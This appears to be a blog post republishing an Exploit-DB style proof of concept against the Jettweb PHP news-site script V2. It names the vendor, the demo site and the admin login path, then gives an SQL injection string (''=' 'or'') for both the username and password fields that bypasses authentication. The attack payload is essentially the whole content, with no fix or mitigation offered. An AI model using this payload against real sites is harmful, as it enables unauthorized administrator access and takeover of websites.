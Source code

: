 ```yaml
---
layout:     post
title:      "Jettweb Haber Sitesi V2 - Authentication Bypass"
date:       2019-03-25 12:37
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, authentication bypass, exploit-db]
---
```


# Exploit Title: Jettweb PHP Hazır Haber Sitesi Scripti V2 - Authentication Bypass
# Date: 25.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://jettweb.net/u-6-php-hazir-haber-sitesi-scripti-v2.html
# Demo Site: http://haberv2.proemlaksitesi.net
# Version: V2
# Tested on: Kali Linux
# CVE: N/A

----- PoC: Authentication Bypass -----

Administration Panel: http://localhost/[PATH]/yonetim/admingiris.php
Username: '=' 'or'
Password: '=' 'or'
